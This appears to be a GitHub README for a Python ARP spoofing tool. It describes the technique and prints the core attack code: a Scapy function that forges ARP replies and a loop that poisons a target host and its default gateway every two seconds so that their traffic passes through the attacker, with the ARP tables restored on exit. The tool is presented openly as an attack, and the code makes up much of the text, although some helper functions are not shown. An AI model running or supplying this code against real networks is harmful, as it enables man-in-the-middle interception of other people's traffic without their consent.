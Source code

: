 # Arp_Spoof

Program in python to perform an attack technique in which an attacker sends ARP (Address Resolution Protocol) messages in order to associate your MAC address with the IP address of another host, such as the IP address of the default gateway, causing all traffic is sent to the attacker's IP address instead of the gateway's IP address.

## Used Modules

  * Scapy
  * optparse

## Scapy

The module is used to send and receive the ARP messages(can be used to Create Packets, Analyse Packets and send/receive Packets) in this case we are gonna use to send responses to client, and the default gateway, this way the client will think that my host is the gateway and the gateway that i'm the client, and all the packet traffic will pass through my host.

```python
def spoof(target_ip, spoof_ip): 
    global mac 
    target_mac = mac
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)
   
mac = get_mac(target_ip)
```
The function spoof receive like arguments the target_ip which is the IP that i want to send the responses pretending be another host, and the spoof_ip is the IP tha i want to pretend be. On the line 4 i create the packet that i'm gonna send to the target, with scapy.ARP(), putting the IP and MAC address of our target(the host) and putting the source IP like the spoof_ip(in this case the gateway), with that when the target reveive the response it will appear the IP of the authentic gateway, but actually my MAC address will be associated with this IP, and i'm gonna receive all the responses from it. The same thing will happen with the gateway to pretend be the authentic host.

```python
try:
   packets_sent_count = 0
   while True:
      spoof(target_ip, gateway_ip)
      spoof(gateway_ip , target_ip)
      packets_sent_count += 2
      print("\r[+] Packets sent: " + str(packets_sent_count), end="")
      time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C, Resetting ARP tables...")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)  
```
I have to send packets pretending being another host constantly, so i used one infinite loop (while True:), 
but I still put a 2 second of interval between sending packages to have at least control.<br>

With the exception when CTRL + C is typed the progam stops running, and use the restore functions to restore the ARP tables of the target host and the gateway.

<img src="termi.png">

So until we type CTRL + C the progam is sending packets two by two (one for the target and one for the gateway) after that the ARP table is reset, for both gateway and the target.

